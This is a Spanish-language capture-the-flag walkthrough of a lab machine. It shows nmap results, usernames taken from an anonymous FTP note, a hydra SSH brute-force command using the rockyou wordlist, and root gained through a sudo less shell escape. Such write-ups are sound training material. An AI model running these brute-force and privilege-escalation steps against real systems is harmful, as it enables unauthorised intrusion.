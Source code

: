 #Linux #Linux 
### namp
```python 
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp   open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1002/tcp filtered windows-icfw
1057/tcp filtered startron
2135/tcp filtered gris
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### puerto 21 ftp abierto y missconfigure con anonymous

tenemos un archivo
```css 
	From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```
este archivo nos da 3 usuarios 
```java
	Username: Amy
	Username: Jake
	Username: holt
```

### aplicamos fuerza bruta con hydra 
```python
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh
```

![[Pasted image 20240612140407.png]]
### ingresamos por ssh con las credenciales que hemos conseguido
![[Pasted image 20240612140416.png]]
en la rita /home/holt podemo conseguir la flag user.txt

### vamos a escalar privilegios
buscaremos permisos SUID
```java 
	find / -perm -u=s -type f 2>/dev/null
```
podemos ver un direcctorio /usr/bin/less hacemos sudo -l
![[Pasted image 20240612140422.png]]

### el usuario jake puede ejecutar todo con lo que quiera con (ALL) /usr/bin/less con el directorio less sin proporcionar contraseña NOPASSWD

```python 
	sudo less /etc/profile
```
debido a que podemos ejecutar less como sudo. podemos crear un archivo de texto y seguido de esto podemos decirle
```python
	!/bin/bash
```
### WE ARE ROOT